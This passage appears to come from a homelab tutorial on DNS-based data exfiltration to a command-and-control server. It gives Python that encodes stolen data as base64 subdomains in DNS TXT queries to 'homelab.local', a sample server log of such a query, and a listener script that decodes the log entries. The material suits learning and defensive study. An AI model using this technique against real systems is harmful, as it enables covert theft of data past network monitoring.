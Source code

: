 ``` python
try:
    dns.resolver.resolve(encoded_message, 'TXT')
except:
    # pass to ignore errors when resolving domains
    # -- errors will occur because the domains are non-existent
    pass
```

When the script above is run your C2 server should receive a log that looks similar to this:
```
client @0x77042c1ca578 192.168.1.182#55499 (YWxleAo=.Ni4xNC4xMC1hcmNoMS0xCg==.homelab.local): query: YWxleAo=.Ni4xNC4xMC1hcmNoMS0xCg==.homelab.local IN TXT +E(0) (192.168.1.155)
```

Notice how the query contains two obfuscated strings; `YWxleAo=` and `Ni4xNC4xMC1hcmNoMS0xCg==`. What we've done here is queried `homelab.local` but included the exfiltrated and encoded data as two additional subdomains. In doing this the C2 server has managed to log the query despite the fact that the domain does not exist. This is exactly how we will harness this exfiltration technique - we just need to make a listener that can decode the logs for us.

``` python
import re
import time
import base64

dns_log_file = "/var/log/named/query.log"

with open(dns_log_file, "r") as file:
    file.seek(0,2) # move to end of file
    while True:
        message = []
        line = file.readline()
        if line:
            line = line.strip()
            match = re.search(r'query: ([^\s]+)', line)
            if match:
                query = match.group(1)
                split_query = query.split('.')
                for section in split_query:
                    if section == "homelab" or section == "local":
                        pass
                    else:
                        decoded_section = base64.b64decode(section).decode("utf-8").strip()
                        message.append(decoded_section)
        if message:
            print(" ".join(message))
        time.sleep(1)
```

`dns_listener.py` is designed to listen to the DNS log file for any updates, refreshing every second. You may have noticed that this is a very basic example and isn't very fault-tolerant. It will quickly strip out the query within the DNS record, split that query into sections by periods, and decode those sections if they don't match one of two keywords; homelab and local. Make sure to adapt those keywords to fit your setup if you're following along or you will have errors. A more robust approach would be to verify whether each section is actually base64-encoded rather than excluding specific keywords. However, this works perfectly fine for this lab exercise.
